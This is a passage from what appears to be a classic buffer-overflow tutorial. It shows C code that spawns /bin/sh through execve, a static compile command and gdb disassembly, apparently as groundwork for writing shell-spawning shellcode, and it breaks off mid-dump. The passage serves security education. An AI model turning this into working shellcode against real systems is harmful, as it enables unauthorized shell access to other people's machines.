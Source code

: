 ![fig 5.](https://i.imgur.com/gD8xMUu.png)


The code to spawn a shell in C looks like:

*shellcode.c*

	#include <stdio.h>
	void main() {
		char *name[2];

		name[0] = "/bin/sh";
		name[1] = NULL;
		execve(name[0], name, NULL);
	}

To find out what does it looks like in assembly we compile it, and start
up `gdb`.  Remember to use the `-static` flag. Otherwise the actual code the
for the execve system call will not be included.  Instead there will be a
reference to dynamic C library that would normally would be linked in at
load time.

`[aleph1]$ gcc -o shellcode -ggdb -static shellcode.c`

`[aleph1]$ gdb shellcode`

	GDB is free software and you are welcome to distribute copies of it
	under certain conditions; type "show copying" to see the conditions.
	There is absolutely no warranty for GDB; type "show warranty" for details.
	GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
	(gdb) disassemble main
	Dump of assembler code for function main:
	0x8000130 <main>:       pushl  %ebp
	0x8000131 <main+1>:     movl   %esp,%ebp
	0x8000133 <main+3>:     subl   $0x8,%esp
	0x8000136 <main+6>:     movl   $0x80027b8,0xfffffff8(%ebp)
	0x800013d <main+13>:    movl   $0x0,0xfffffffc(%ebp)
	0x8000144 <main+20>:    pushl  $0x0
	0x8000146 <main+22>:    leal   0xfffffff8(%ebp),%eax
	0x8000149 <main+25>:    pushl  %eax
	0x800014a <main+26>:    movl   0xfffffff8(%ebp),%eax
	0x800014d <main+29>:    pushl  %eax
	0x800014e <main+30>:    call   0x80002bc <__execve>
	0x8000153 <main+35>:    addl   $0xc,%esp
	0x8000156 <main+38>:    movl   %ebp,%esp
	0x8000158 <main+40>:    popl   %ebp
	0x8000159 <main+41>:    ret
	End of assembler dump.
    
	(gdb) disassemble __execve
    Dump of assembler code for function __execve:
	0x80002bc <__execve>:   pushl  %ebp
	0x80002bd <__execve+1>: movl   %esp,%ebp
	0x80002bf <__execve+3>: pushl  %ebx
	0x80002c0 <__execve+4>: movl   $0xb,%eax
	0x80002c5 <__execve+9>: movl   0x8(%ebp),%ebx
	0x80002c8 <__execve+12>:        movl   0xc(%ebp),%ecx
	0x80002cb <__execve+15>:        movl   0x10(%ebp),%edx
	0x80002ce <__execve+18>:        int    $0x80
	0x80002d0 <__execve+20>:        movl   %eax,%edx
	0x80002d2 <__execve+22>:        testl  %edx,%edx
	0x80002d4 <__execve+24>:        jnl    0x80002e6 <__execve+42>
	0x80002d6 <__execve+26>:        negl   %edx
	0x80002d8 <__execve+28>:        pushl  %edx
	0x80002d9 <__execve+29>:        call   0x8001a34 <__normal_errno_location>
	0x80002de <__execve+34>:        popl   %edx
	0x80002df <__execve+35>:        movl   %edx,(%eax)